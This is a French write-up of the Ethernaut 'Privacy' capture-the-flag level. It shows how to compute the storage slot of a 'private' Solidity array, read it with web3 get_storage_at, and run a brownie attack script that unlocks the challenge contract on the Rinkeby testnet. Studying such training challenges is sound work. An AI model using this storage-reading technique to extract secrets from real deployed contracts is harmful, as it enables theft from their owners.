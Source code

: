 # Privacy

## Objectif

L'objectif de ce niveau est de trouver le mot de passe permettant de débloquer le contrat

## Déblocage du contrat

Pour débloquer le contrat, nous devons le bon mot de passe à la méthode [`unlock`](contracts/privacy.sol#18)

```
require(_key == bytes16(data[2]));
```

`data` est déclarée par:
```
bytes32[3] private data;
```

Dans le langage solidity `private` signifie que cette variable n'est pas directement visible par d'autre contrat, mais il est possible de lire sa valeur en connaissant son `slot` de stockage.

A partir de la déclaration des membres de ce contrat:
```
  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;
```
nous pouvons déduire que `data` est stocké dans le `slot` d'index 5.

Nous pouvons récupérer le contenu de data via l'appel suivant:
```
data_key = web3.eth.get_storage_at(address, 5)
```

La comparaison de la clé s'effectue avec `bytes16(data[2])`, nous n'avons besoin que des 16 premiers octet

## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `rinkeby`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0x11343d543778213221516D004ED82C45C3c8788B) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
brownie run scripts/attack.py main "0x5F8d3B98337a13DC1143666079f6B660C9a4C5C2" --network rinkeby
```
```console
Brownie v1.18.1 - Python development framework for Ethereum

PrivacyProject is the active project.

Running 'scripts/attack.py::main'...
Locked: True
Transaction sent: 0x931ee56e6050d0b4ec21b8fb04847c7b61bea026082962ec480a61b682a3c6fb
  Gas price: 1.000000011 gwei   Gas limit: 31768   Nonce: 261
  Transaction confirmed   Block: 10568121   Gas used: 24080 (75.80%)

Locked: False
```


